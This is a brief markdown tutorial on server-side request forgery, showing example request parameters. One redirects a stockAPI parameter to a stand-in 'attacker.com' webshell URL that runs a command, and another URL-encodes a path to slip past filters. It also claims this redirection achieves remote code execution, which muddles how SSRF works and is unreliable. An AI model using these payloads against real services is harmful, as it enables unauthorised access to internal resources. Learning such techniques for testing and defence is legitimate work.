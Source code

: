 <h2>SSRF - Server Side Request Forgery.
One of the best vulnerabilities (in my opinion) as this can have unlimited impact. From accessing internal files, like admin panels, to sending a request to your own controlled server and requesting your own file</h2>

---
<h3>Basic examples are:</h3>

```stockAPI=http://fbi.com/clothing/shirts=shirts123```

As You can see, the stockAPI is making a request to to it's API/Server. We can change this so that the stockAPI makes a request to our controlled server/internal file/internal link (like /admin)

```StockAPI=http://attacker.com/webshell.php?command=id```

And with this simple case, we have achieved Webshell RCE.

---
<h3>Encoding Payloads</h3>
Now, SSRF is not a secret, so some websites may filter certain characters or increase security.

To bypass firewalls, we can encode our payloads or find alternatives
(like you could bypass XSS with prompt() rather than alert() )

For example:
```stockAPI=http://fbi.com/admin/``` 
Could get picked up and blocked!

But if you try encoding(URL) some characters, it should allow you to bypass the filtering!
Or even double URL encode.
```stockAPI=http://fbi.com/%41dmin/```
